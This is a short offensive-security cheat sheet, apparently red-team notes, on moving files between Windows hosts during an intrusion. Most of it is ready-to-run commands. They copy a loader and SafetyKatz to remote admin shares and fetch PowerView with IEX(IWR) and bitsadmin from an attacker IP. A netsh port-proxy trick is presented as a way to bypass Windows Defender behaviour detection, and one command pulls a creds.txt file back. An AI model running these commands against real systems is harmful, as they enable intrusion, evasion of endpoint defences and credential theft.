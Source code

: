 
## Basic File Transfer
```cmd
echo F | xcopy C:\AD\Tools\Loader.exe \\usweb\C$\Users\Public\Loader.exe /Y
```
## Net use

**Upload files to remote computer by mapping remote folder to our drive X on our machine:**
```cmd
net use x: \\server1\C$\Users\Public /user:server1\Administrator Password123!
```

**Copy desired file to the remote machine:**
```cmd
echo Y | xcopy C:\Loader.exe x:\Loader.exe
```

**Remove the mapping:**
```cmd
net use x: /d
```

> ⚠️ **PAY ATTENTION:**
> Check if non-admin can mount it.
---
## Bypass behaviour detection when downloading a file

> ⚠️ **PAY ATTENTION:**
> Needs admin privileges.

**Forwards anything sent to port 8080 to any IP in the local machine to port 80 on our machine:**

```cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.1.131
```

>**ℹ️ Info:**
>Since the download is "happening" on localhost, we bypass behaviour detection from Windows Defender.

**Removing the port forward:**
```cmd
netsh interface portproxy delete v4tov4 listenport=8080 listenaddress=0.0.0.0
```
---
## Rejetto HFS
https://github.com/rejetto/hfs/releases/download/v0.56.0/hfs-windows-x64-0.56.0.zip

**Normal file download:**
```powershell
IEX(IWR -usebasicparsing http://192.168.1.131/PowerView.ps1 -outfile PowerView.ps1)
```

**Behaviour detection bypass download:**
```powershell
IEX(IWR -usebasicparsing http://127.0.0.1:8080/PowerView.ps1 -outfile PowerView.ps1)
```
---

## BITS Jobs

**Normal file download:**
```powershell
bitsadmin /transfer myjob /download /priority high http://192.168.1.131/PowerView.ps1 c:\temp\PowerView.ps1
```

**Behaviour detection bypass download:**
```powershell
bitsadmin /transfer myjob /download /priority high http://127.0.0.1:8080/PowerView.ps1 c:\temp\PowerView.ps1
```

## PowerShell Remoting

**Copy item to PSSession:**
```powershell
Copy-Item -ToSession $sess -Path "C:\Tools\SafetyKatz.exe" -Destination "C:\Users\Public\" -verbose
```

**Copy item from PSSession**

```powershell
Copy-Item -FromSession $sess -Path "C:\Logs\creds.txt" -Destination "C:\AD\" -verbose
```